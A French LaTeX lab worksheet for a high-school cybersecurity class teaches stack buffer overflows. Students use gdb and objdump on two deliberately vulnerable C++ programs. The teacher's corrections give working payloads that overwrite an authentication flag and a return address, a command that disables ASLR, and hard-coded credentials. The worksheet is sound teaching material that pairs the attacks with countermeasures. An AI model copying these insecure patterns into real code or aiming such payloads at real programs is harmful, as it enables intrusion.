\documentclass[french, 12pt]{article}%


\usepackage[T1]{fontenc}
\usepackage[utf8]{inputenc}
\usepackage[french]{babel}

\usepackage{textcomp}

\usepackage[official]{eurosym}

\usepackage{appendix}
\usepackage{pdfpages}


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\newcommand{\itemE}{\item[$\bullet$]}
\newcommand{\titreSeq}{Stack buffer overflow}
\newcommand{\lycee}{Lycée de Brocéliande}
\newcommand{\classSeq}{CIEL }
\newcommand{\matiereSeq}{IR}      
\newcommand{\numSeq}{Cyber}

\newcommand{\numAct}{0}
\newcommand{\objSeance}{Comprendre le principe de l'attaque stack buffer overflow à l'aide d'un debugger}

\newcommand{\moySeq}{\begin{itemize}	
\itemE VM linux (Ex : kali)

\end{itemize}}

\newcommand{\compSeq}{\begin{itemize}
\item  
\end{itemize}}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%Algo
\usepackage[linesnumbered, french]{algorithm2e}
\SetKwFor{For}{Pour}{faire}{fin}
\SetKwFor{While}{Tant que}{faire}{fin}%
\SetKw{KwTo}{à}
\SetKw{KwPas}{par pas de}
\SetKw{KwRet}{Retourne}
\SetKwProg{Fn}{Fonction }{ arguments }{fin}
\SetKwRepeat{Repeat}{Répéter}{jusqu'à}%
\SetKwIF{If}{ElseIf}{Else}{Si}{alors}{Sinon si}{Sinon}{Fin}


\usepackage{listings} %%%%Présenration code source
\lstset{language=C++,
    %numbers=left,
    %stepnumber=1,
    showstringspaces=false,
    %tabsize=1,
    %breaklines=true,
    %breakatwhitespace=false,
    basicstyle=\footnotesize,
    keywordstyle=\color{blue}\footnotesize,
    stringstyle=\color{red}\footnotesize,
    commentstyle=\color{green}\footnotesize,
    morecomment=[l][\color{magenta}]{\#}
    }

%\usepackage[T1]{fontenc}


% Margins
\topmargin=-0.45in
\evensidemargin=0in
\oddsidemargin=0in
\textwidth=6.5in
\textheight=9.0in
\headsep=0.25in 


\linespread{1.1} 
\usepackage{amsmath}%
\usepackage{amsfonts}%
\usepackage{amssymb}%
\usepackage{graphicx}
\usepackage{lastpage}
\usepackage{enumitem}

%\usepackage[T1]{fontenc}    
\usepackage{multirow}
\usepackage{lscape}
\usepackage[colorlinks = true,
            linkcolor = blue,
            urlcolor  = blue,
            citecolor = blue,
            anchorcolor = blue]{hyperref}
\usepackage{array}
\usepackage{mwe}
%-------------------------------------------
\newtheorem{theorem}{Theorem}
\newtheorem{summary}[theorem]{Summary}
\newenvironment{proof}[1][Proof]{\textbf{#1.} }{\ \rule{0.5em}{0.5em}}



\usepackage{xcolor}

\usepackage{colortbl}
\definecolor{vert_capet}{RGB}{191,255,191}	
\definecolor{bleu_snir}{RGB}{101,191,179}	
\setlength{\doublerulesep}{\arrayrulewidth}
%-------------------------------------------
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\usepackage[framemethod=tikz]{mdframed}
\usepackage{tikz, xcolor, lipsum}
\makeatletter
\mdfsetup{skipabove=\topskip,skipbelow=\topskip}

\tikzset{titre_bleu_snir/.style =
	{draw=bleu_snir, line width=1.5pt, fill=white,
	rectangle, rounded corners, right,minimum height=2em}}
\newcommand{\titreencadre}{Titre}
\makeatletter
\mdfdefinestyle{encadrestyle}{%
	linewidth=1.5pt,roundcorner=5pt,linecolor=bleu_snir,
	apptotikzsetting={\tikzset{mdfbackground/.append style ={%
		fill=white}}},
	frametitlefont=\bfseries,
	singleextra={%
		\node[titre_bleu_snir,xshift=2em] at (P-|O) %
			{~\mdf@frametitlefont{\titreencadre}\hbox{~}};},
	firstextra={%
		\node[titre_bleu_snir,xshift=2em] at (P-|O) %
		{~\mdf@frametitlefont{\titreencadre}\hbox{~}};},
	}
\mdfdefinestyle{encadresanstitrestyle}{%
	linewidth=1.5pt,roundcorner=5pt,linecolor=bleu_snir
	apptotikzsetting={\tikzset{mdfbackground/.append style ={%
		fill=yellow!20}}},
	}

\newenvironment{encadre}[1]{\renewcommand{\titreencadre}{#1}
	\begin{mdframed}[style=encadrestyle]
	\vspace{0.5\baselineskip}
	}{%
	\end{mdframed}}

\newenvironment{encadresanstitre}{
	\begin{mdframed}[style=encadresanstitrestyle]
	}{%
	\end{mdframed}}
\makeatother
\usepackage{colortbl}
\definecolor{vert_capet}{RGB}{191,255,191}	
\definecolor{bleu_snir}{RGB}{101,191,179}	
\setlength{\doublerulesep}{\arrayrulewidth}
%-------------------------------------------
\usepackage{comment}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\newif\ifPROF

%\def\PourProf{0}
\ifdefined\PourProf
  \PROFtrue
  \newenvironment{corr}{\begingroup \color{red}}{\normalcolor \endgroup}
\else
  \PROFfalse
  \newenvironment{corr}{\begingroup \color{white}}{\normalcolor \endgroup}
\fi
%\PROFtrue

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\usepackage{listings} %%%%Présenration code source
\lstset{language=C++,
    %numbers=left,
   %stepnumber=1,
    showstringspaces=false,
    tabsize=1,
    breaklines=true,
    breakatwhitespace=false,
    basicstyle=\footnotesize,
    keywordstyle=\color{blue}\footnotesize,
    stringstyle=\color{red}\footnotesize,
    commentstyle=\color{magenta}\footnotesize,
    morecomment=[l][\color{magenta}]{\#}
    }
\lstdefinestyle{commande}{
  basicstyle=\ttfamily\footnotesize,
  keywordstyle=\color{blue},
  commentstyle=\color{gray},
  %numbers=left,
  %numberstyle=\tiny\color{gray},
  numbersep=5pt,
  breaklines=true,
  frame=single,
  backgroundcolor=\color{lightgray!10}
  %captionpos=b,
  %caption=\lstname  
}



%%%Note et pied de page
\usepackage{fancybox}
\usepackage{fancyhdr}
\usepackage[a4paper,margin=2.5cm,bottom=2cm,headheight=2cm]{geometry}
\pagestyle{fancy}
\fancyhead[R]{
\includegraphics[scale=0.3]{logo_CIEL.png}}
\fancyhead[C]{Prénom}
\fancyhead[L]{Nom}
\fancyfoot[C]{Page \thepage/\pageref{LastPage}}
\fancyfoot[L]{\classSeq ~\matiereSeq}
\fancyfoot[R]{Seq \numSeq  ~ Act \numAct}
\renewcommand{\headrulewidth}{1pt}
%%%Note et pied de page 



\begin{document}
\lstset{basicstyle = \ttfamily,columns=fullflexible}
\title{\titreSeq\\
 
\includegraphics[scale=0.5]{logo_CIEL.png}\\
}
\author{\lycee}
\date{}%\today}
%\maketitle

\noindent\begin{tabular}{!{\vrule width 1.5pt}m{0.7\linewidth}!{\vrule width 1.5pt}m{0.2\linewidth}!{\vrule width 1.5pt}}
\hline\hline
\cellcolor{vert_capet}
\begin{center}
	\Large\textbf{\titreSeq}  
\end{center}
  & 

\begin{minipage}{1.0\linewidth}
  \vspace*{0.1cm} 
\centering
\includegraphics[scale=0.2]{logo_lycee.jpg}

{\tiny\today}
  \vspace*{0.1cm} 
\end{minipage}\\ \hline\hline

\multicolumn{2}{!{\vrule width 1.5pt}l!{\vrule width 1.5pt}}{
\begin{minipage}{14cm}
\vspace*{0.1cm} 
\textbf{Objectif} : \objSeance
\vspace*{0.1cm} 
\end{minipage}} \\ \hline\hline

\multicolumn{2}{!{\vrule width 1.5pt}l!{\vrule width 1.5pt}}{
\begin{minipage}{14cm}
\vspace*{0.1cm} 
\textbf{Moyens} : 
\moySeq
\vspace*{0.1cm} 
\end{minipage}} \\ \hline\hline
%
%\multicolumn{2}{!{\vrule width 1.5pt}l!{\vrule width 1.5pt}}{
%\begin{minipage}{14cm}
%\vspace*{0.1cm}
%\tiny
%Compétences attendues :
%\compSeq
%\vspace*{0.1cm}
%\end{minipage}}
%\normalsize \\ \hline\hline
\end{tabular}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\vspace{0.25cm}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%  DEBUT %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\tableofcontents
\newpage
\section{Objectif }

Cette activité va mettre en avant une des plus vielles attaques logiciel : le stack buffer overflow. Pour comprendre et interpréter son fonctionnement, vous utiliserez le debbuger \verb?gdb? sur votre Vm \verb?kali?

\paragraph{Précision : } Les exemples que nous allons exploiter sont des cas d'écoles. Ils ont pour objectif de vous sensibiliser à cet type d'exploit. 


\section{Contourner l'authentification}
Vous avez à disposition dans le répertoire ressource un programmable exécutable nommé : \verb?ex1?. Il a été compilé sur Kali et ne s'exécute donc pas sur windows. Pour les besoins des tests, vous avez aussi le code source ex1.cpp dans lequel les informations ont été cachées. 

Il a été compilé à l'aide du code source présent en annexe \href{lblEx1}.  Pour le compiler, il a fallut taper la ligne suivante dans une console 

\begin{lstlisting}[style=commande]
g++ ex1.cpp -g -o ex1
\end{lstlisting}

avec
\begin{itemize}
\itemE \verb?g++? : utilisation du compilateur gcc
\itemE \verb?-g? : utilisation des informations de debug
\itemE \verb?-o ex1? : la sortie (le fichier exécutable créé s'appellera ex1). 
\end{itemize}

Pour l'exécuter, il suffit de taper dans un terminale : 

\begin{lstlisting}[style=commande]
./ex1
\end{lstlisting}


\paragraph{Votre objectif est de trouver la phrase qui s'affiche quand l'authentification est correcte}

Vous allez pour cela exploiter 3 méthodes différentes pour arriver à vos fins. 


\subsection{GDB et overflow}
\subsubsection{Explication}
La 1re méthode va être basée sur le débugger \verb?gdb? et l'exploitation d'un \textbf{buffer overflow}. Vous trouverez ci-dessous quelques définitions concernant les outils et ce type d'attaque.
 
\begin{encadre}{Debugger}
Un débeugueur en français ou debugger en anglais est un logiciel qui aide un développeur à analyser les bugs d'un programme. Pour cela, il permet d'exécuter le programme pas-à-pas, d'afficher les informations du programme, de mettre en place \textbf{des points d'arrêt} sur des conditions ou sur des lignes du programme...
\end{encadre}


\begin{encadre}{Point d'arrêt}
Un point d'arrêt est une marque utilisée par un débugger pour arrêter un programme sur une ligne précise. Il est alors facilement possible de faire un dump mémoire (visualiser la mémoire), regarder l'état du programme....
\end{encadre}
 

\verb?gdb? pour GNU Debugger est le débogueur standard du projet GNU. Il est portable sur de nombreuses distributions linux. Il s'utilise en ligne de commande. Vous verrez au cours de l'année qu'il existe sur le même principe des debuggers en mode graphique inclus dans les IDE. 


\begin{encadre}{Buffer overflow}
Un dépassement de tampon ou débordement de tampon (en anglais, buffer overflow ou BOF) est un bug par lequel un processus, lors de l'écriture dans un tampon, écrit à l'extérieur de l'espace alloué au tampon, écrasant ainsi des informations nécessaires au processus.
\end{encadre}


La mémoire dans de la pile d'exécution  si l'on regarde que les 3 premières variables est
\begin{center}

\includegraphics[scale=0.5]{./ressource/memoire_prog}
\end{center}

Si l'on fournit un login de plus grande taille que la taille allouée en mémoire, nous allons écrire dans l'emplacement réservé à la variable \verb?authentification?. 

\paragraph{Exemple :} Le tableau \verb?login? est constitué de 10 caractères. Si l'on rentre 14 fois le caractère '\verb?Z?', voila ce qu'il se passe. 

\begin{center}

\includegraphics[scale=0.5]{./ressource/memoire_prog_over.png}
\end{center}

\vspace{0.5cm}

\paragraph{Voici quelques commandes utiles pour gdb}

Voici les principales commandes qui vous seront utiles.
\begin{itemize}
\itemE Lancer (ouvrir) le programme avec \verb?gdb?
\end{itemize}

\begin{lstlisting}[style=commande]
$ gdb ex1
\end{lstlisting}


\begin{itemize}
\itemE Visualiser le code source C dans GDB si on dispose des codes sources
\end{itemize}

\begin{lstlisting}[style=commande]
(gdb) list
\end{lstlisting}

\begin{itemize}
\itemE Dans gdb,  poser un point d'arrêt à la ligne \verb?ligne? du fichier ex1.cpp
\end{itemize}

\begin{lstlisting}[style=commande]
(gdb) break ex1.cpp:ligne
\end{lstlisting}

\begin{itemize}
\itemE Mettre un point d'arrêt sur une ligne de code asm.
\end{itemize}

\begin{lstlisting}[style=commande]
(gdb)break *0x401234
\end{lstlisting}


\begin{itemize}
\itemE Visualiser l'ensemble des breakpoints
\end{itemize}

\begin{lstlisting}[style=commande]
(gdb)info breakpoints
\end{lstlisting}

\begin{itemize}
\itemE Effacer un breakpoint
\end{itemize}

\begin{lstlisting}[style=commande]
(gdb)delete Num_break
\end{lstlisting}

\begin{itemize}
\itemE Dans gdb, lancer le programme (qui s'arrête au prochain point d'arrêt ou a un cin)
\end{itemize}

\begin{lstlisting}[style=commande]
(gdb)run
\end{lstlisting}

\begin{itemize}
\itemE Lance l'exécution du programme et s'arrête au début du main (permet de poser des breakpoints après que les segments soient mappés en mémoire)
\end{itemize}

\begin{lstlisting}[style=commande]
(gdb)start
\end{lstlisting}


\begin{itemize}
\itemE Désassembler une fonction (main par exemple)
\end{itemize}

\begin{lstlisting}[style=commande]
(gdb) disassemble main
\end{lstlisting}

\begin{itemize}
\itemE Dans gdb, visualiser la mémoire à partir de la fonction en cours (dans lequel vous avez mis un point d'arrêt)
\end{itemize}

\begin{lstlisting}[style=commande]
(gdb) x/32x $sp
\end{lstlisting}


\begin{itemize}
\itemE Dans gdb, continuer après un point d'arrêt
\end{itemize}

\begin{lstlisting}[style=commande]
(gdb) continue 
\end{lstlisting}

\subsubsection{A vous}

\begin{enumerate}
\item Lancer gbd avec l'exécutable ex1
\end{enumerate}

\begin{lstlisting}[style=commande]
gdb ex1 
....
(gdb) 
\end{lstlisting}

\begin{enumerate}[resume]
\item Lancer le programme avec arrêt au début du main
\end{enumerate}

\begin{lstlisting}[style=commande]
(gdb) start
Temporary breakpoint 1 at 0x11f6: file ex1.cpp, line 9.
Starting program: /home/kali/Desktop/stackoverflow/ressource_eleve/ex1/ex1 
....
\end{lstlisting}

\begin{enumerate}[resume]
\item Déassembler le main et poser un breakpoint sur une ligne qui vous semble intéressante par exemple avant \footnote{Par expérience, il est possible d'identifier le cin et cout dans le code assembleur avec respectivement des call à des fonctions du type : \textit{basic\_istream} et \textit{basic\_ostream}} 
\begin{itemize}
\itemE \verb?std::cout << "authentification AVANT "  << authentification << "\n"; ?
\end{itemize}

\end{enumerate}

\begin{lstlisting}[style=commande]
(gdb) disassemble 
...
0x565562ad <+212>:   push   %eax
0x565562ae <+213>:   call   0x56556060 <_ZStlsISt11char_traitsIcEERSt13basic_ostreamIcT_ES5_PKc@plt>
0x565562b3 <+218>:   add    $0x10,%esp

..
\end{lstlisting}
et
\begin{lstlisting}[style=commande]
(gdb) break *0x565562ae
\end{lstlisting}

\begin{enumerate}[resume]
\item Continue alors l'exécution du programme en remplissant le login et le mot de passe

\end{enumerate}
\begin{lstlisting}[style=commande]
(gdb) c
Continuing.
Login : aaaaaaaa
Mot de passe : 11111111

Breakpoint 2, 0x565562ae in main () at ex1.cpp:24
24      in ex1.cpp
\end{lstlisting}
Vous vous êtes normalement arrêté au breakpoint. 

\begin{enumerate}[resume]
\item Analyser alors l'état de la mémoire (la pile)
\end{enumerate}

\begin{center}

\includegraphics[scale=1.0]{./ressource/dump_stack}
\end{center}

\begin{enumerate}[resume]
\item Faire différents tests pour retrouver l'emplacement de la variable \verb?authentification?. (Les commandes \verb?run? et \verb?x/32p $sp? vous seront très utiles). Penser à la taille des tableaux présent dans le code source.
\end{enumerate}

\begin{enumerate}[resume]
\item Une fois que vous avez identifié l'emplacement en mémoire des différentes données, il va falloir écrire une valeur précise dans \verb?authentification?. Vous avez ci-dessous des éléments d'aide :
\end{enumerate}

\begin{itemize}
\itemE Dans le même répertoire mais dans un autre terminal, créer une chaine de caractères (payload) contenant des caractères ASCII et des valeurs hexadécimales (non ASCII). Dans l'exemple ci-dessous, on écrit 2 caractères \verb?'p'? puis 4 octets ayant pour valeur \verb?\xEF\xBE\xAD\xDE ?(sans correspondance hexa) dans le fichier \verb?data_input.txt? 
\end{itemize}
\
\begin{lstlisting}[style=commande]
$ echo $(printf 'pp\xEF\xBE\xAD\xDE')>data_input.txt
\end{lstlisting}

\begin{itemize}
\itemE Dans gdb, lancer le programme avec sur la sortie standard les données du fichier précédemment créé (pense a ajouter un breakpoint pour observer le résultat)
\end{itemize}

\begin{lstlisting}[style=commande]
(gdb) run < data_input.txt 
\end{lstlisting}

\begin{itemize}
\itemE Vous pouvez aussi utiliser ce fichier directement dans un terminal. 
\end{itemize}

\begin{lstlisting}[style=commande]
$ cat data_input.txt |ex1
\end{lstlisting}

Normalement en analysant et en modifiant la chaine, vous avez réussi à écraser le contenu de la variable \verb?authentification? et donc vous avez affiché la phrase mystère.


\ifPROF
\color{red}
\paragraph{Correction }

Il faut mettre 10 caratéres inutiles dans le login les 4 octets suivants vont écraser la varaible authentification. Attention à l'ordre des octets

\begin{lstlisting}[style=commande]
$ echo $(printf 'pppppppppp\x01\x00\x00\x00')>data_input.txt

(gdb)  run < data_input.txt
\end{lstlisting}

\normalcolor
\fi


\begin{enumerate}[resume]
\item Propose 2 moyens très simples d'empêcher cette attaque. Les mettre en place et les tester.
\end{enumerate}

\ifPROF
\color{red}
\paragraph{Correction }
\begin{itemize}
\itemE Utiliser des std::string car c'est le programme qui gère sa mémoire.
\itemE Changer l'ordre des variables. 
\itemE Utiliser des fonctions qui permettent de vérifier la taille 
\begin{lstlisting}[style=commande]
std::cin >> std::setw(10) >> login;
std::cin >> std::setw(10) >> mdp;}
\end{lstlisting}

\end{itemize}
\normalcolor
\fi


\subsection{Code assembleur}

Pour rappel, la compilation d'un programme C/C++ se passe de la manière suivante. 
\begin{center}

\includegraphics[scale=0.7]{./ressource/objdump.png}
\end{center}

C'est le fichier 'langage machine' qui est exécuté sur l'ordinateur. Ce fichier est presque incompréhensible pour un humain. Cependant, il existe une possibilité de passer du langage machine au langage l'assembleur à l'aide de la commande  \verb?objdump?

Elle s'utilise de la manière suivante (dans un terminal)

\begin{lstlisting}[style=commande]
$ objdump -D ex1 > ex1.asm
\end{lstlisting}

Vous désassemblez le fichier binaire (exécutable) \verb?ex1? et vous mettez le résultat dans un fichier (texte) nommé \verb?ex1.asm?. Il suffit alors de l'afficher dans un éditeur de texte de votre choix : \verb?vim? par exemple. 

Le contenu du fichier \verb?ex1.asm? contient l'intégralité du code en langage assembleur (langage proche de la machine). 

\begin{center}

\includegraphics[scale=0.5]{./ressource/code_asm_ex1.png}
\end{center}

\textbf{Il ne vous est pas demandé de programmer en assembleur mais de savoir interpréter le cheminement des données. }


\begin{enumerate}[resume]
\item Dans le code assembleur, trouvez le login et le mot de passe permettant d'afficher la phrase mystère.  
\end{enumerate}
\paragraph{Aide}
\begin{itemize}
\itemE La structure du code assembleur est similaire à la structure du programme C++ $\Leftrightarrow$ si des variables sont initialisées au début du main dans le code source C++, vous allez retrouver cette étape au même endroit dans le fichier assembleur. 
\itemE Les variables sont initialisées en hexa. 
\itemE Le code ASCII est utilisé pour coder les caractères.
\itemE Le login est \verb?pviland?
\end{itemize}

\ifPROF
\color{red}
En début du main en assembleu, il y a une suite de caractère ASCII 
\begin{itemize}
\itemE \verb?char monLog[] = "pviland";?
\itemE \verb?char monMdp[] = "nounours";?
\itemE 
\end{itemize}

\normalcolor
\fi

\paragraph{Remarque} Des outils tels que \textbf{Ghidra} permettent une analyse plus précise et plus poussée que la commande \verb?objdump?.
\subsection{Visualisation de variable}
La commande \verb?strings nomProgramme? extrait et affiche toutes les chaînes de caractères ASCII lisibles contenues dans un fichier binaire, souvent un exécutable.

\begin{enumerate}[resume]
\item En utilisant cette commande, trouver le login et le mot de passe
\item Proposer une solution pour éviter cette fuite. 
\end{enumerate}

\ifPROF
\color{red}
\begin{itemize}
\itemE Login: pviland
\itemE Mot de passe : nounours
\end{itemize}

Comme contre mesure : 
\begin{itemize}
\itemE Ne jamais stocker les mots de passe en dur 
\itemE Chiffrer/encder la chaine directement dans le code
\end{itemize}

\normalcolor
\fi


\section{Exécution d'une fonction non utilisée}

Vous allez voir qu'il est possible d'aller plus loin dans l'exploitation du buffer overflow mais l'attaque est plus compliquée. Vous allez pouvoir exécuter des fonctions qui normalement ne sont pas censées être exécutées. Une protection pour ce type d'attaque (ASLR) est par défaut mise en place sur Kali, vous allez la désactiver. 

\begin{lstlisting}[style=commande]
$ echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
\end{lstlisting}

\textit{Il est possible de passer outre cette protection mais l'attaque devient plus compliquée à mettre en place.} \ 


\paragraph{A la fin de l'activité, il faudra remettre réactiver  la protection} \ 

\begin{lstlisting}[style=commande]
$ echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
\end{lstlisting}




\paragraph{Objectif : }
Le but est \textbf{d'exécuter la fonction } \verb?fctNoUse? pour afficher le message caché \footnote{Aide : c'est une situation de  Quality land (Marc-Uwe Kling).}. le programme est présent en annexe \ref{lblEx2}. Ce n'est pas grave s'il ne se termine pas correctement.  


Pour cela, vous avez à disposition 2 fichiers 
\begin{itemize}
\itemE Un fichier exécutable sous kali \verb?ex2? compilé avec très peu d'informations de debug.
\itemE Le code source partiel. 
\end{itemize}



\paragraph{Respecter les étapes ci-dessous et vous découvrirez le message} Vous utiliserez les commandes de debug que vous avez utilisées plus haut.
\begin{enumerate}
\item Etudiez le code source fournit et comprenez son fonctionnement.
\item Deassemblez le programme et afficher le résultat. Et 
\end{enumerate}




\begin{enumerate}[resume]
\item Lancez le programme avec gdb
\item Lancer le débogage avec \verb?start?
\item Mettez un breakpoint à la fin de la fonction \verb?fctUtile?. Pour cela, vous allez utiliser l'adresse de la ligne sur laquelle vous souhaitez vous arrêtez.Par exemple, si vous souhaitez vous arrêter à la ligne en rouge  (ce qui est normalement le cas)
\end{enumerate}

\begin{center}

\includegraphics[scale=0.7]{./ressource/ex2_asm_break}
\end{center}

Vous devez dans \verb?gdb? taper la commande suivante :

\begin{lstlisting}[style=commande]
(gdb) break *0x5655624f
\end{lstlisting}



\begin{enumerate}[resume]
\item Continuer l'exécution avec \verb?c? ou \verb?continu?
\item Lorsque vous arrivez au breakpoint, visualiser la mémoire. 
\end{enumerate}

Vous devez avoir un résultat très similaire. 
\begin{center}

\includegraphics[scale=0.7]{./ressource/dump_mem}
\end{center}

\begin{itemize}
\itemE En vert : les données rentrées par l'utilisateur en hexa. Dans mon cas : \verb?aaaaaaaaaa?
\itemE En rouge : l'adresse de retour de la fonction.
\end{itemize}


\begin{enumerate}[resume]
\item Quelle est l'utilité de l'adresse de retour  (en rouge)? Vous pouvez regarder où se situe cette adresse dans le fichier asm (en enlevant le 40). parlez en à votre très cher professeur.

\item Une fois que vous avez compris l'utilité de cette adresse, préparez votre payload et injecter la dans le programme : utilisez les commandes vues en début d'activité. \textbf{Quelle est la phrase mystère}.
\end{enumerate}


\ifPROF

\color{red}
\begin{lstlisting}[style=commande]
$ echo $(printf 'pppppppppp\xEF\xBE\xAD\xDE\xEF\xBE\xAD\xDE\xEF\xBE\xAD\xDE\x55\x62\x55\x56' )> injection.txt
$ cat injection.txt|  ./ex2                                                                                  
Debut
Fct utile 
Login Votre login est pppppppppp____ 
zsh: done                cat injection.txt | 
zsh: segmentation fault  ./ex2

$ echo 0 | sudo tee /proc/sys/kernel/randomize_va_space                                                      
[sudo] password for kali: 
0
                                                                                                                     
$ cat injection.txt|  ./ex2                            
Debut
Fct utile 
Login Votre login est pppppppppp_____
Achter c'est malin, reparer c'est cretin!
zsh: done                          cat injection.txt | 
zsh: illegal hardware instruction  ./ex2

\end{lstlisting}

\normalcolor
\fi



\paragraph{PENSER à réactiver  la protection} \   

\begin{lstlisting}[style=commande]
$ echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
\end{lstlisting}


\section{Conclusion}
Vous êtes des grands spécialiste sdu \textbf{Buffer overflow} et de \textbf{l'assembleur}. La finalité pour contrer cela : utiliser toujours des fonctions qui analyse les données de l'utilisateur et ne jamais mettre des mots de passe en claire dans un exécutable. 

\newpage
\appendix
\section{Code source ex1}
\label{lblEx1}

\footnotesize
\begin{lstlisting}[style=commande]
#include <cstdio>
#include <cstring>
#include <iostream>



int main( void )
{
	int authentification= 0;
	char login[10];
	char mdp[10];

	char monLog[] = "_______";
	char monMdp[] = "________";


 	std::cout << "Login : ";
	std::cin >> login;

	std::cout << "Mot de passe : ";
	std::cin >> mdp;


	std::cout << "authentification AVANT "  << authentification << "\n"; 

	if( std::strcmp(login, monLog) == 0 && std::strcmp( mdp, monMdp) == 0 )
	{
		std::cout << "Verification OK" << "\n"; 
		authentification = 1;
	}
	std::cout << "authentification APRES "  << authentification  << "\n"; 
	
	if( authentification )
	{
		std::cout << "Acces autorise\n";
		std::cout << "________________________________________
		______________________________________________\n" ;
	}
	else
	{
		std::cout << "Acces non autorise\n";
	}
	
	return ( 0 );
}

\end{lstlisting}

\normalsize
\newpage


\section{Code source ex2}
\label{lblEx2}

\footnotesize
\begin{lstlisting}[style=commande]
#include <cstdio>
#include <cstring>
#include <iostream>

using namespace std;

char phrase[] ="___________________________________________";

void fctUtile()
{
	char login[10];
	cout << "Fct utile \n";
	cout << "Login ";
	cin >> login;

	cout << "Votre login est " << login << "\n";


}

void fctNoUse()
{
	cout << phrase;
}


int main( void )
{
	cout << "Debut\n"; 
	fctUtile(); 
	cout << "fin\n"; 
	return ( 0 );
}


\end{lstlisting}


\normalsize

\end{document}
